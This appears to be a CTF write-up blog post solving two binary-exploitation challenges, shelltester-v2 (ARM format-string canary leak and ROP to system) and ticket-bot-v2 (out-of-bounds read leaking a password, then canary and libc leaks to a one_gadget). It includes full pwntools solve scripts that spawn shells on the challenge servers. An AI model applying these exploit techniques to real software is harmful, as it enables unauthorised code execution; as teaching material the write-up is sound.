

Another weekend, another CTF. This weekend it was the first iteration of CyberSpace CTF and I played with b01lers. Despite some early infra issues, I enjoyed 
playing. I contributed to the solves of a few additional challenges, but I plan on writing up `ticket-bot-v2` and `shelltester-v2`, which I primarily worked on. 
656e6a6f79!

# shelltester-v2 | pwn | 49 Solves
>> Shellltester was an easy one. I changed the program. Can you solve this one?

First thing we notice after extracting the challenge files from the given zip file is the inclusion of the `qemu-arm-satic` binary, which means this challenge is 
likely 32 bit ARM. And, upon running the `file` command, our suspicions are correct. Let's run `checksec` and have a look at what protections we are up against. 


So, we can overwrite the GOT if needed, we'll have a canary to contend with, the stack is marked as "No Execute", and the binary addresses are not random. With this
in mind, let's throw this in `ghidra` and find the `main` function. 

```c
undefined4 main(void) {
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Again an easy pwn, but now on a different architecture. Good Luck!");
  vuln();
  return 0;
}
```

So, looks like buffering is set up for the remote connection and a function (I renamed it to `vuln()` for reasons which will be apparent later) is called. Let's 
have a look at that function. 

```c
void vuln(void) {
  char *pcVar1;
  char buffer1 [52];
  char buffer2 [100];
  int local_c;
  
  local_c = __stack_chk_guard;
  puts("Tell me something: ");
  fgets(buffer1,50,stdin);
  printf(buffer1);
  puts("Do you want to say something before you leave?");
  pcVar1 = fgets(buffer2,1000,stdin);
  if (local_c != __stack_chk_guard) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(pcVar1);
  }
  return;
}
```

Our input is taken in to one buffer, printed back out at us, and then we are asked to give input into a second buffer. 

There are a few key vulnerabilities we'll leverage to get a shell. The first of which is a `printf` vulnerability. The first time we are asked for 
input, it is printed back out at us with the `printf` function with no format specifier. This will allow us to specify an arbitrary format string 
(like `%p`) to leak values off of the stack. 

The second is a buffer overflow the second time we are asked for input. The program uses `fgets()` to read 1000 bytes into a 100 byte buffer. 

Now, how do we exploit it? We'll leverage the `printf` vulnerability to leak the canary off the stack, bypassing that protection. Then, we'll find a ROP gadget to
load a pointer to the string `/bin/sh` into `r0` (because `r0` is the first argument for functions... ARM is fun!) and then call `system`. 

Step 1 is finding that canary. To do so, we'll use the ol' trial and error method; sending in some arbitrary format string (E.g `%10$p` to leak the "10th" element),
seeing how far away we are from the canary, and then adjusting that `%{x}` value until we are able to leak the canary. Here is an example. 


Above (you might have to zoom in), I sent the format string `%38$p`. This means I want the "38th" item on the stack, relative to the first item which would just be the result of `%p`. The lilac box on the left is the value I leaked with `%38$p` and the lilac box on the right is that value on the stack. The stack was 
examined with the `pwndbg` command of `stack 50` right after the `printf` call. So, the "38th" stack index is `0x40800224`. But, we want the canary. To find it, 
we'll send in 99 `a`s (why 99? Our buffer size is 100 so we'll send 99 because a newline is added) and inspect the stack after the `fgets` call to see how it 
looks before a potential overflow. 


As you can see, our input starts at `0x408001b0` and goes until `0x40800210`. Remember, canary's are usually stored before the base pointer (frame pointer (`fp`) in 
ARM's case) and the return address so that they can do their job and detect memory corruption. As such, it looks like it is at `0x40800214` in the above figure. If
you look up two figures, the "38th" element we leaked was at stack address `0x40800200`. `0x40800200` - `0x40800214` (the canary address) = `-20`. So, they are 20 
bytes apart. 20 bytes / 4 bytes, because each address is 4 bytes, is 5. So, we can assume that if we increase our format string to `%43$p` from `%38$p` we'll leak 
the canary. And we do! 

Side note, my debugging setup for these challenges on different architectures is the following. First, use `tmux` to split my terminal down the middle vertically. 
Then, use pwntools to start the process using whatever qemu emulator is required, in debug mode, in the left window. 

```python
from pwn import *
p = process('qemu-arm-static -g 1234 chall'.split())
```

Finally, use `gdb-multiarch -x` with a `.gdb` file in the right window to debug, like so. 
```
file chall
tar ext: 1234
init-pwndbg
break *vuln
```

So, now that we know we can defeat that canary, how do we call a shell? Well, this challenge took much longer than it should have to solve because I was first 
looking for gadgets to try a GOT overwrite. Then, after questioning my sanity, I realized that this challenge is STATICALLY LINKED AHHHHHHSHHHHAHHA. So after some 
~~internally directed profanity~~ thoughtful deliberation, I knew all I had to do was find a gadget to load a pointer to `/bin/sh` into `r0`. Because of the 
challenge's statically linked-ness:
1. We have all the gadgets one could ask for
2. The string `/bin/sh` and `system` are in the binary requiring no libc leaks

The gadget I chose was `ldr r0, [sp, #8]; add sp, sp, #0x14; pop {pc}` located at `0x000673cc`. This will load something into `r0` relative to the stack pointer,
increment the stack pointer, and then pop something off the stack into `pc` to continue the chain of execution. Let's see that in action. Notice how this is 
different than x86. In ARM, you usually populate registers by loading relative to the stack instead of popping, and return by popping something into the `pc` (program counter), which is the equivalent of `RIP` on ARM. `Azeria Labs` has a great ARM tutorial. 

Let's see this gadget in action. 


We can see that we added 8 bytes of padding since we load `r0` with `/bin/sh` at an offset of `#8`. Finally, we add some more padding (`c`s) to account for the 
`add sp, sp, #14` instruction which will increment the stack pointer. That is such that when `pop {pc}` is called, `system()` will be sitting right there on the
top of the stack waiting to be called. 

And that's that! When running our script that implements this, we get code execution. I quite like ARM and this was a fun challenge. Solve script below. 

```python
from pwn import *
elf = context.binary = ELF("chall")

#p = process('qemu-arm-static -g 1234 chall'.split())
p = remote("shelltesterv2.challs.csc.tf", 1337)

ldr_r0_sp = 0x000673cc

p.sendline(b'%43$p')

p.recvuntil(b'Good Luck!')
p.recvline()
p.recvline()
canary = int(p.recvline().rstrip(b'\n'), 16)
binsh = elf.search(b'/bin/sh').__next__()
payload = flat([
    'a' * 100,
    canary,
    0x40800234,
    ldr_r0_sp,
    'b' * 8,
    binsh,
    'c' * 8,
    elf.symbols.system
])
p.sendline(payload)
p.interactive()

#CSCTF{4rm_pwn_1s_c00l_r1ght?}
```

# ticket-bot-v2 | pwn | 63 Solves
>>Welcome to TicketBot v2.0. We fixed some bugs and added some extra feature!

Shall we look at the protections? 


Full protections :gasp

Never fear, let's have a look in ghidra to see what we are dealing with. 

```c
void main(EVP_PKEY_CTX *param_1) {
  init(param_1);
  wellcome();
  do {
    menu();
  } while( true );
}
```
Inside the main function there are calls to `init()`, `welcome()`, and `menu`. Let's explore `init()` first. 
```c
int init(EVP_PKEY_CTX *ctx) {
  FILE *__stream;
  long in_FS_OFFSET;
  char randoms [8];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  __stream = fopen("/dev/urandom","rb");
  fgets(randoms,8,__stream);
  fclose(__stream);
  srand((uint)randoms);
  password = rand();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return password;
}
```

It looks like some buffering is set up, and then 8 bytes from `/dev/urandom` are read in to a buffer to seed `srand()`. Then, the result of `rand()` is stored in a 
global variable called `password`. Next, let's look at `wellcome()`. 

```c
void wellcome(void) {
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Wellcome to TicketBot v2.0 here is your ticketID %d\n",(ulong)ticketcounter);
  currentticketid = ticketcounter;
  puts("Please tell me why your here:");
  __isoc99_scanf("%32s",tickets + (long)(int)ticketcounter * 0x20);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Nothing super special happening here. We are prompted for some user input which is stored at an offset within the global `tickets` variable. Also note that
our `currentticketid` is set to `ticketcounter`, which at the start is `0`. 

Next, let's look in `menu()`. 

```c
void menu(void) {
  long in_FS_OFFSET;
  int choice;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("========================");
  puts("1. New Ticket");
  puts("2. View Ticket");
  puts("3. Service Login");
  puts("========================");
  choice = 0;
  __isoc99_scanf("%d",&choice);
  getchar();
  if (choice == 1) {
    GrabNewTicket();
  }
  else if (choice == 2) {
    ViewTicket();
  }
  else if (choice == 3) {
    ServiceLogin();
  }
  else {
    puts("that is not an option");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

A pretty standard menu function. We've got some new functions to look at, let's start with `GrabNewTicket()`. 

```c
void GrabNewTicket(void) {
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  currentticketid = ticketcounter + 1;
  ticketcounter = currentticketid;
  if (5 < (int)currentticketid) {
    ticketcounter = 0;
  }
  printf("your new ticketID is %d\n",(ulong)ticketcounter);
  puts("Please tell me why your here:");
  __isoc99_scanf("%32s",tickets + (long)(int)ticketcounter * 0x20);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Upon requesting a new ticket, our current ticket ID is incremented by one and the ticket counter is set to that new number. If our ticket ID is 5, 
then `ticketcounter` is set to 0. This is crucial to remember for later. After that, our ticketID is printed to us and we give some input. Let's look at 
`ViewTicket()`. 

```c
void ViewTicket(void) {
  long in_FS_OFFSET;
  int ticket_id;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  ticket_id = 0;
  puts("please enter your ticketID");
  __isoc99_scanf("%d",&ticket_id);
  if (ticket_id == currentticketid) {
    write(1,tickets + (long)ticket_id * 0x20,0x20);
    puts("\n");
  }
  else {
    puts("sorry that is not your ticket!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

At first glance, nothing may look super off. We are prompted to enter the `ticket_id` we want to view and then the `tickets` variable is indexed with that
ticket_id. The ticket contents are then printed out. The contents are what we enter after we are asked "Please tell me why you are here". 

Let's look at the functionality of `ServiceLogin()` before we look at the bug. 

```c
void ServiceLogin(void) {
  long in_FS_OFFSET;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Admin Password");
  __isoc99_scanf("%d",&local_14);
  if (local_14 != password) {
    puts("Wrong Password");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  AdminMenu();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
We are prompted for an "Admin Password" which is compared to the random number generated in `init()`. If we are correct, we enter the `AdminMenu()` function. 
Let's look at that now. 

```c
void AdminMenu(void) {
  long in_FS_OFFSET;
  int choice;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("========================");
  puts("1. change Admin Password");
  puts("2. reset all Tickets");
  puts("========================");
  choice = 0;
  __isoc99_scanf("%d",&choice);
  getchar();
  if (choice == 1) {
    adminpass();
  }
  else if (choice == 2) {
    puts("Reset done!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Once we are in, we can either change the admin password or reset all tickets (which doesn't appear to do anything). Let's have a look in the `adminpass()` function. 

```c
void adminpass(void) {
  long in_FS_OFFSET;
  char new_passwd [4];
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Enter new Password");
  __isoc99_scanf("%s",new_passwd);
  local_14 = atoi(new_passwd);
  puts("Password changed to");
  printf(new_passwd);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Crucially, we have two vulnerabilities. The first is a buffer overflow; an arbitrary amount of bytes can be read in with `scanf()` to a buffer that is only 
4 bytes big. Second, we have a `printf` vulnerability which was explained above, but basically we can specify arbitrary format specifiers like `%p` to leak things 
off of the stack. 

The exploit path is then simple; use the format string vulnerability to leak the canary and a libc pointer, and do a `ret2libc` attack to a one gadget. A `one gadget`
is an address within libc that once returned to will (normally) use some form of `execve` to spawn a shell. 

But, in order to exploit that we need to give the password which is randomly generated. Enter our bug. 

Remember how when the program is first run, `wellcome()` is called? Note that I did not misspell that, that is how it is in the program :) In there we were told our 
ticket_id is 0, `currentticketid` and `ticketcounter` are set to each other (0 in this case), and we enter in input for "Why we are here" which is stored in the 
global `tickets` variable. 

The global `tickets` array is 159 bytes long and the program indexes it in sections of `32` bytes. 159 / 32 ~ 5, meaning that we can store about 5 tickets. This is
supported by the check in `GrabNewTicket()` seen below. 

```c
...

  if (5 < (int)currentticketid) {
    ticketcounter = 0;
  }

...
```
So, after the initial "wellcome" ticket starts at `ticket_id` 0, we can have a `ticket_id` of up to `5`. So, effectively we can have `6` tickets (0 -> 5). See why 
that might be a problem? Let's look at the check within `ViewTicket()`. 

```c
if (ticket_id == currentticketid) {
    write(1,tickets + (long)ticket_id * 32,0x20);
    puts("\n");
} 
else {
    puts("sorry that is not your ticket!");
}
```
Notice how the check is different? It only checks to make sure the `ticket_id` == `currentticketid`. So if we create the initial ticket (which we don't have a 
choice in making) and it is `ticket_id` 0, and then create 5 more such that our `ticket_id` is 5 (1, 2, 3, 4, 5), we can index outside of the global `tickets` 
array. 

If we look at the following code in `ViewTicket()`...

```c
if (ticket_id == currentticketid) {
    write(1,tickets + (long)ticket_id * 32,0x20);
    puts("\n");
}
else {
    puts("sorry that is not your ticket!");
}
```

With a `ticket_id` of `5`, we will write 20 bytes of data to `stdout` after `tickets + 160`. And, luckily for us, the seed (which is not used in this challenge but 
is used in v1) and password are right after the `tickets` array. So, we can leak the password! Now we have access to not only the admin panel, but also to the 
crucial vulnerabilities we will need. 



See above the global variable layout. The blue arrow is the end of the `tickets` array and the red arrow is the `password` value we can leak. 

So, now to write the exploit. We'll use the `printf` vulnerability to leak the canary and libc using the same methodology mentioned in `shelltester-v2` for finding 
out what `x` value to specify when doing `%{x}$p` to get a leak. The python code for doing so is below. 

```py
p.sendlineafter(b'here:\n', b'idk')

# Make 5 tickets
for x in range(5):
    p.sendline(b'1')
    p.sendline(b'idk')

# View ticket/leak
p.sendline(b'2')
p.sendline(b'5')

p.recvuntil(b'idk')

# Grab Password
leak = p.recvline()
print(leak[4:12])
password = u64(leak[1:9].ljust(8, b'\x00'))

# Get the canary, at stack offset 7
p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')
p.sendline(b'%7$p')
p.recvuntil(b'0x')
canary = int(p.recvline()[:16], 16)
print(f"Canary = {hex(canary)}")

# Get the libc leak (write() + 23)
p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')
p.sendline(b'%3$p')
p.recvuntil(b'0x')
libc_write = int(p.recvline()[:12], 16)
libc.address = (libc_write - 23) - libc.symbols.write
print(hex(libc.address))
```
Now that we've got everything, we can send in the final exploit chain. We can use the `one_gadget` tool on the provided libc to grab the offset of a `one_gadget`
that works and then send in our payload. And voila, we get a shell! Full script is as follows. 

```python
from pwn import *
elf = context.binary = ELF("chal_patched")
libc = ELF("libc.so.6")
context.terminal = ['tmux', 'split-window', '-h']
#p = elf.process()
p = remote("ticket-bot-v2.challs.csc.tf", 1337)

p.sendlineafter(b'here:\n', b'idk')

# Make 5 tickets
for x in range(5):
    p.sendline(b'1')
    p.sendline(b'idk')

# View ticket/leak
p.sendline(b'2')
p.sendline(b'5')

p.recvuntil(b'idk')
leak = p.recvline()
password = u64(leak[1:9].ljust(8, b'\x00'))
p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')
p.sendline(b'%7$p')

p.recvuntil(b'0x')
canary = int(p.recvline()[:16], 16)
print(f"Canary = {hex(canary)}")

p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')
p.sendline(b'%3$p')

p.recvuntil(b'0x')
libc_write = int(p.recvline()[:12], 16)
libc.address = (libc_write - 23) - libc.symbols.write
print(hex(libc.address))
p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')

one_gadget = libc.address + 0xe3b01
payload = flat([
    'a' * 8,
    canary,
    'b' * 8,
    one_gadget
])
p.sendline(payload)
p.interactive()

# CSCTF{4rr4ys_4nd_th3re_1nd3x3s_h4ndl3_w1th_c4r3}
```
A fun challenge! Credit to my teammate `@athryx` for first spotting a potential vulnerability. It was a bit challenging to get a libc leak as the 4 byte buffer
only allowed single digit offsets, `%9$p` was the highest I could go, but we got the job done. 

# Things Learned in this CTF
1. There is a such a thing as a `ret2dlresolve` technique??!
    1. [https://ir0nstone.gitbook.io](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2dlresolve)
    2. Basically, we fake an entry in the PLT to trick the program into resolving a symbol of our choosing. Then, we can 
    call that symbol. So, we could trick the PLT into resolving something like system! Cool! This was one of the techniques
    used on the `ezrop` challenge

2. There is a such a thing as an `openat2` syscall! 
    1. I guess when seccomp is a bit too harsh. That was part of the intended solution for `menu`, which was...
    2. Leak libc with `puts()`, then use ROP again to mprotect a region as executable, then send in shellcode. 
    3. Plus, a cool syscall table website! [https://syscalls.mebeim.net/?table=x86/64/x64/latest](https://syscalls.mebeim.net/?table=x86/64/x64/latest)
    4. Additionally, this challenge used a technique where you could use leftover pointers to leak libc if you didn't have a `pop rdi` gadget.   
        1. Basically, when `printf` is called, it leaves a pointer to `__funlockfile` in `rdi` when it returns. So you can simply call `printf` and and then `puts` to print out that pointer left in `rdi`. And then you have a libc leak! Apparently this exists in the newer libc versions (>= 2.34). The reasoning behind why this might occur can be seen here in this article [https://sashactf.gitbook.io/pwn-notes/pwn/rop-2.34+/ret2gets](https://sashactf.gitbook.io/pwn-notes/pwn/rop-2.34+/ret2gets). Thanks to users in the CyberSpace CTF 2024 discord for discussing this technique! 
